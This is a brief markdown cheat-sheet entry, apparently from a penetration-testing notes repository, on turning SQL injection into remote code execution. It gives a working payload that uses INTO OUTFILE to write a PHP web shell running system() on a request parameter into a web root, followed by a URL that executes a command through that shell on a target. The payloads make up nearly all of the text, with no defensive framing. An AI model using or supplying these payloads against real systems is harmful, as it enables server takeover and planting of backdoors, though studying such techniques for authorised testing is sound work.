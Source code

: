 # SQLi

First thing to check in an SQLi is RCE capabilities (file write or OS command execution)

### 1) File write

    SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php"

### 2) Execute payload on webserver

    https://target.com/webshell.php?cmd=id

